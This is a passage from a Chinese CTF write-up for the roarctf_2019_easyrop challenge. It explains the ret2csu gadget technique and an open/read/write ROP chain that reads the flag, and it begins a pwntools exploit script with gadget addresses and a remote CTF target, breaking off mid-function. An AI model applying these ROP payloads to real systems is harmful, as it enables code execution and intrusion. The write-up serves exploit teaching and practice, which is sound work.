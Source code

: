有了libc基地址,也就有了 open , read 和 write 的地址, 但 read 和 write 都需要控制三个参数, 这该如何  
实现呢? 此处先介绍一种非常常见的技术 ret2csu .

ret2csu
-------

如果想调用需要两三个参数的函数（如 write ），寻找gadgets会十分痛苦。幸运的是，  
在 libc\_csu\_init 函数中 (本题IDA中该函数名为 init )，有一对万能的通用gadgets，也称为ret2csu。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d321b1479a2de8866c4905b5fee92cf4e61b5364.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-d321b1479a2de8866c4905b5fee92cf4e61b5364.png)

如图，我们将该gadget分为两部分: p6r;ret 以及mov;...;call. 明显地,这里我们可以控制  
rbx,rbp,r12,r13,r14,r15的值来调用一个指定函数,并指定其前三个参数,即rdi,rsi,rdx的值.

注意: r12传入的是函数的 指针 ,而不是函数自己的地址

最终的ROP构造如下：

```php
ROP = p6r;ret + p64(0) + p64(1) + 函数指针
+ arg1 + arg2 + arg3 + mov;...;call
+ padding of 56 bytes + 返回地址
```

填充56个字节是因为mov;...;call 运行完后，会接着从图中 loc\_401B86 位置运行，我们需要填充7\*8=56  
字节的栈空间。这种利用方式的一个缺点是需要的payload长度较大.

更细节的利用流程如下:

1. 利用 pop rdi;ret 和 pop rsi; pop r15; ret 这两个gadget, 控制 read 的前两个参数 (第三个参数依  
    赖rdx中的值), 将字符 flag\\x00 写到bss段上.
2. 同时将 open 的地址写到bss段上. 如此,我们就有了指向 open 的指针.利用ret2csu调用  
    open("flag",0) , 打开flag文件, 文件的fd会是3.
3. 类似地, 向bss段写入 read 的地址,利用ret2csu调用  
    read(3,buf,size) 将flag写入到bss段上.
4. 类似地, 向bss段写入 write 的地址,利用ret2csu调用  
    write(2,buf,size) 输出flag到 fd:2 ,即 stderr , 成功getflag

完整exp
-----

```php
from pwn import *
import sys
if len(sys.argv) >1 and sys.argv[1] == 'r':
    target = remote("node3.buuoj.cn",27246 )
else:
    #target = process("./roarctf_2019_easyrop")
    target=process("./roarctf_2019_easyrop",env={"LD_PRELOAD":"./libc-2.27.so"})
    if(len(sys.argv)>1) and sys.argv[1]=='g':
    #gdb.attach(target,"b *0x401b2a")
    gdb.attach(target, "b read")
#context.log_level='debug'
#context.update(arch='')
#gdb.attach(target)

elf = ELF("./roarctf_2019_easyrop")
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
libc = ELF("./libc-2.27.so")

pop_rdi=0x401b93
pop_rsi_r15 = 0x401b91
pop_rsp_r13_r14_r15 = 0x401b8d
main = 0x4019f3

# 利用ret2csu生成并返回payload
def ret2csu(functionPtr,arg1,arg2,arg3):
```